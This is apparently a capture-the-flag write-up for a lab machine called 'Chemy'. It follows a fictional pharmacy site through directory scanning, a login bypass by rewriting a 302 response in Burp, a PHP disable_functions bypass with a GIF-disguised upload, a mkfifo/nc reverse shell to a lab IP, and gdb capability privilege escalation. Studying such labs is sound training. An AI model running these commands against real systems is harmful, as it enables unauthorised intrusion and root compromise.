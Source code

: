 #+title: Chemy
#+author: gabriel

* intro
Our Cyber Incident Response team has received information about illegal sales on a pharmaceutical sales site. The site administrator is reportedly selling banned drugs to different countries, and we believe that contracted companies and customers are hosted on the server. Your task is to infiltrate the server and collect information about the contracted companies and the people associated with them.

* initial scan

#+begin_src sh feroxbuster
🚨 Caught ctrl+c 🚨 saving scan state to ferox-http_chemystore_hv-1760364589.state ...
[#######>------------] - 2m     59089/150015  3m      found:8       errors:1175
[########>-----------] - 2m     12813/30000   96/s    http://chemystore.hv/
[########>-----------] - 2m     12761/30000   96/s    http://chemystore.hv/images/
[#########>----------] - 2m     14139/30000   108/s   http://chemystore.hv/uploads/
[######>-------------] - 2m     10001/30000   91/s    http://chemystore.hv/adminpanel/
[######>-------------] - 2m      9333/30000   88/s    http://chemystore.hv/connection/
#+end_src

: http://chemystore.hv/connection/dbconnect.php
: http://chemystore.hv/adminpanel/

When access /adminpanel/ we receive 302 status code, with redirection to /webadmin/login.php.

If we catch the response of the request, just modify the 302 status code to 200 code, and we can bypass the login page.

With burp, just create an Match and Replace rule, to modify the response header value 302 to 200, and when you access the /webadmin/ page, automatically access the login, and don t need to stay with the intercept on

* bypass disable functions

To get an reverse shell with the upload function, we need to bypass a lot of disable php functions and get the shell with someway

Use -> https://github.com/TarlogicSecurity/Chankro and https://www.youtube.com/watch?v=4a_VDA9Bw0J

*payload* ->
: rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.8.58.60 9001 >/tmp/f

Add the magic gif at start
: GIF87a

Send it to the application and set the listener
: nc -nlvp 9001

* Priv escalation

The gdb binary has capability set, with GTFobins get the command to gdb.
: /usr/bin/gdb /bin/bash -nx -ex 'python import os; os.setuid(0); os.execl("/bin/bash", "bash")'
